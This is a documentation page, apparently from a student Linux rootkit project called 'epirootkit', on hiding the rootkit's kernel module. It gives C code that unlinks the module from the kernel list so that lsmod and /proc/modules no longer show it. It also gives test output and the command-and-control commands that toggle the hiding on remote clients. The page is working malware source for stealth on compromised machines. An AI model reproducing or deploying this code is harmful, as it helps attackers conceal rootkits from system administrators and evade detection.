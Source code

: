 ```yaml
---
title: "Module Hiding"
description: "Hide the rootkit module from lsmod and /proc/modules"
icon: "visibility_off"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 514
---
```


# Module Hiding

Hide the rootkit module from `lsmod` and `/proc/modules` by removing it from the kernel's module list.

## Implementation

```c
int hide_module(void)
{
    if (module_hiding_state.hidden)
        return 0;

    module_hiding_state.prev_module_entry = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    module_hiding_state.hidden = true;
    
    return 0;
}
```

Removes the module from kernel's linked list using `list_del()` while saving the previous entry for restoration.

{{< alert context="warning" text="The [Line Hiding](./line-hiding.md) also hides the module from `/proc/modules` so to test module visibility with lsmod, you must disable line hiding." >}}

## Testing

```bash
# Before hiding
lsmod | grep epirootkit
# Output: epirootkit    16384  0

# After hiding  
lsmod | grep epirootkit
# Output: (nothing)
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
hide-module Client-1      # Hide module
unhide-module Client-1    # Make visible
status Client-1           # Check state
```

Module remains fully functional while hidden. 